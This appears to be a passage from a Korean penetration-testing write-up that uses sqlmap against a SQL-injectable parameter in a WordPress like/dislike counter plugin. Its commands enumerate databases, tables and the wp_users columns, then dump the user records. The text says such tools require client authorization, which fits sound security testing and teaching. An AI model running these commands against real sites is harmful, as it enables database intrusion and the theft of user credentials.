 <p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183016186-06dd67fd-4de9-4e0c-b78f-c923780961c2.png" width = 320>
</p>

이렇게 데이터베이스의 이름이 wordpress 인 것을 알 수 있다.

#### SQLMAP

이번에는 칼리에서 제공하는 `sqlmap`을 이용해서 데이터베이스의 이름과 테이블 등을 알아내본다.

`sqlmap`은 데이터베이스 구조 및 테이블, 컬럼을 추출할 수 있도록 만들어진 오픈소스 모의침투 도구로, 해당 도구를 사용하는 경우 반드시 담당자(고객사)와 협의를 통해 허가를 받은 뒤에 사용할 필요가 있다.

* 데이터베이스 이름 추출

```bash
sqlmap -u "http://dev.fngs.kr/wp-content/plugins/like-dislike-counter-for-posts-pages-and-comments/ajax_counter.php" --method="post" --data="post_id=1&up_type=list" -p "post_id" -v 5 --dbms=MySQL --dbs
```
<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183017706-0211ebbc-b6c1-4d5b-afcd-0579683e1c64.png" width = 520>
</p>

* 데이터베이스 테이블 추출

```bash
sqlmap -u "http://dev.fngs.kr/wp-content/plugins/like-dislike-counter-for-posts-pages-and-comments/ajax_counter.php" --method="post" --data="post_id=1&up_type=list" -p "post_id" -v 5 --dbms=MySQL --tables -D wordpress
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183018162-6178a2e8-687d-4315-8922-ad628d826c5c.png" width = 370>
</p>

* 데이터베이스 칼럼 추출

```bash
sqlmap -u "http://dev.fngs.kr/wp-content/plugins/like-dislike-counter-for-posts-pages-and-comments/ajax_counter.php" --method="post" --data="post_id=1&up_type=list" -p "post_id" -v 5 --dbms=MySQL --columns -T wp_users -D wordpress
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183018367-038b4e7f-1fbe-4445-a59d-e36f74314e28.png" width = 370>
</p>

* 유저 정보 추출

```bash
sqlmap -u "http://dev.fngs.kr/wp-content/plugins/like-dislike-counter-for-posts-pages-and-comments/ajax_counter.php" --method="post" --data="post_id=1&up_type=list" -p "post_id" -v 5 --dbms=MySQL --dump -T wp_users -D wordpress
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183019418-501d936f-84f1-4434-9718-cdc42fab86ed.png" width = 550>
</p>
